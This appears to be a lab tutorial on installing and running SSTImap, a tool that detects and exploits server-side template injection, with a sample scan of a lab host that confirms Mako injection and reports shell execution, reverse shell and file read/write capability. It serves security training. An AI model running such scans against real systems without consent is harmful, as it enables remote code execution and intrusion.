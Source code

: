 # Automating the Exploitation of SSTI Vulnerabilities with SSTImap

SSTImap is a tool that automates the process of testing and exploiting SSTI vulnerabilities in various template engines. Hosted on GitHub, it provides a framework for discovering template injection flaws.

## Installation

### Using AttackBox
The tool is installed in the `/opt/SSTImap` directory.

### Using Your Own Machine
You can install it by cloning the repository from GitHub and setting up its environment. Here's how you can get started:

#### Clone the Repository
```bash
git clone https://github.com/vladko312/SSTImap.git
```

#### Navigate to the SSTImap Directory
```bash
cd SSTImap
```

#### Install Dependencies
If any dependencies are listed (usually via a `requirements.txt` file), install them:
```bash
pip install -r requirements.txt
```

## Features

SSTImap is capable of the following:

- **Template Engine Detection**: SSTImap can help identify the template engine used by a web application, which is crucial for crafting specific exploits.
- **Automated Exploitation**: For known vulnerabilities, SSTImap can automate the process of exploiting them.

## Usage

You can use SSTImap by providing it with the target URL and any necessary options. Here’s a simple usage example:

```bash
python3 sstimap.py -X POST -u 'http://ssti.thm:8002/mako/' -d 'page='
```

This command attempts to detect the SSTI vulnerability using tailored payloads.

### Example Output

```bash
user@tryhackme $ python3 sstimap.py -X POST -u 'http://ssti.thm:8002/mako/' -d 'page='           

    ╔══════╦══════╦═══════╗ ▀█▀
    ║ ╔════╣ ╔════╩══╗ ╔══╝═╗▀╔═
    ║ ╚════╣ ╚════╗  ║ ║    ║{║  _ __ ___   __ _ _ __
    ╚════╗ ╠════╗ ║  ║ ║    ║*║ | '_ ` _ \ / _` | '_ \
    ╔════╝ ╠════╝ ║  ║ ║    ║}║ | | | | | | (_| | |_) |
    ╚══════╩══════╝  ╚═╝    ╚╦╝ |_| |_| |_|\__,_| .__/
                             │                  | |
                                                |_|
[*] Version: 1.2.1
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] Loaded plugins by categories: languages: 5; generic: 3; engines: 17; legacy_engines: 2
[*] Loaded request body types: 4

[*] Scanning url: http://ssti.thm:8002/mako/
[*] Testing if Body parameter 'page' is injectable
[*] Mako plugin is testing rendering with tag '*'
[+] Mako plugin has confirmed injection with tag '*'
[+] SSTImap identified the following injection point:

  Body parameter: page
  Engine: Mako
  Injection: *
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, python code
```